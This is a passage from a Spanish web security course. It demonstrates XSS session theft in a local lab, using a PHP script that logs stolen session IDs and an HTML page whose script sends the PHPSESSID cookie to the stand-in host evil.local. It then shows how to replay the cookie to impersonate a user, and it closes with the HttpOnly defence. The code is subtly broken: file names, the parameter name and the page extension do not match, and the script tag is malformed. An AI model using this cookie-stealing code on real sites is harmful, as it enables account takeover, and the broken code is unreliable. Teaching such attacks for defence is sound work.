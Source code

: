En este host virtual crearemos una página llamada `robo-de-sesion.php` con el siguiente contenido:

```php
<?php
$session_robada = $_GET['session_robada'] ?? "";
$session_robada .= "\n";
$fichero = 'sessions.txt';
// Abre el fichero para obtener el contenido existente
$actual = file_get_contents($fichero);
// Escribe el contenido al fichero
file_put_contents($fichero, $session_robada, FILE_APPEND);
```

Y ahora en el sitio `dominioseguro.local`, crea el siguiente contenido en la página `hackeada.php`

```html
<!DOCTYPE html>
<html lang="es">
<head>
<meta charset="utf-8">
</head>
<body>
    Esta es una página que ha sido hackeada mediante XSS.
Al acceder, envía la cookie de sesión al sitio http://evil.local
<script src=='http://evil.local/robar-session.php?session_robadada=' + document.cookie.replace(/(?:(?:^|.*;\s*)PHPSESSID\s*\=\s*([^;]*).*$)|^.*$/, "$1")></script>
</body>
</html>
```

Para que funcione, **primero debes iniciar sesión** en la página `dominioseguro.local/login.php` y después visitar la página `dominioseguro.local/hackeada.html`

Ahora abre el archivo `sessions.txt` y comprobarás que tiene una clave de sesión que puedes usar para suplantar al usuario original. Para ello, haz una petición en una página privada a `login.php`, abre la pestaña `Red` en **Firebug** , selecciona la página y pulsa el botón `Reenviar`

![image-20210131184754004](/Ciberseguridad-PePS/assets/img/validacion/image-20210131184754004.png)

Y ahí cambia el valor de `PHPSESSID` por el que se encuentra en el archivo `sessions.txt` y pulsa el botón `Enviar`

![image-20210131185040301](/Ciberseguridad-PePS/assets/img/validacion/image-20210131185040301.png)

Comprobarás en la pestaña ***Respuesta*** que hemos suplantado al usuario `mario`. Imagina que es la página de un banco, o de Facebook, etc. 

![image-20210131185223891](/Ciberseguridad-PePS/assets/img/validacion/image-20210131185223891.png)

### Evitar el robo de sesión

Existe una cabecera de respuesta que impide que las cookies se puedan leer por javascript lo que nos protege de este tipo de ataques. Dicha cabecera es `HttpOnly`. Por ejemplo, en PHP se puede configurar [así](https://stackoverflow.com/questions/36877/how-do-you-set-up-use-httponly-cookies-in-php/8726269#8726269):
